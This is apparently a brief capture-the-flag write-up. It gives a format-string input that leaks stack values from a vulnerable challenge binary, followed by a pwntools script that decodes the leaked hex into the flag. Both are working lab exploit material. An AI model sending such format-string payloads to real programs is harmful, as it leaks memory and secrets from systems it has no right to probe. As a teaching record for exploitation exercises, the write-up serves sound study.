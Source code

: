 # Leak

Send the following input (might be slightly different on systems)
```
%14$p.%15$p.%16$p.%17$p
```

# Unhex:

```python

from pwn import *

sol = b''

a = '0x61336c7b51425447.0x68545f6c6c615f6b.0x2173676e31745f65.0x7d2121'.replace('0x','')
flag = a.split('.')

for part in flag:
    sol += unhex(part)[::-1]

log.success(sol)

```

